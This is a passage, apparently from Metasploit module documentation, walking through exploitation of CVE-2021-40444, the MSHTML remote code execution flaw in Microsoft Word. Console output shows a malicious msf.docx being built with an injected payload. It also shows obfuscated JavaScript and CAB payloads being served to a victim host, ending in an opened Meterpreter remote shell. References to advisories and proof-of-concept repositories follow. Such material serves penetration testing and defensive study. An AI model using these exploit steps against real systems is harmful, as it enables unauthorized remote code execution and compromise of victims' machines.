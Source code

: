     [*] Parsing item from template: word/_rels/settings.xml.rels
    [*] Parsing item from template: word/_rels/document.xml.rels
    [*] Parsing item from template: word/fontTable.xml
    [*] Parsing item from template: word/webSettings.xml
    [*] Parsing item from template: word/numbering.xml
    [*] Injecting payload in docx document
    [*] Finalizing docx 'msf.docx'
    [+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
    ```

3. Execute the DOCX document on a remote vulnerable system.

    ```
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: f3189fad
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 3b8886e6
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] Sending stage (200262 bytes) to 172.20.7.36
    [*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:59004) at 2021-11-08 19:51:01 +0400
    ```

## References

1. <https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444>
2. <https://www.sentinelone.com/blog/peeking-into-cve-2021-40444-ms-office-zero-day-vulnerability-exploited-in-the-wild/>
3. <http://download.microsoft.com/download/4/d/a/4da14f27-b4ef-4170-a6e6-5b1ef85b1baa/[ms-cab].pdf>
4. <https://github.com/lockedbyte/CVE-2021-40444/blob/master/REPRODUCE.md>
5. <https://github.com/klezVirus/CVE-2021-40444>
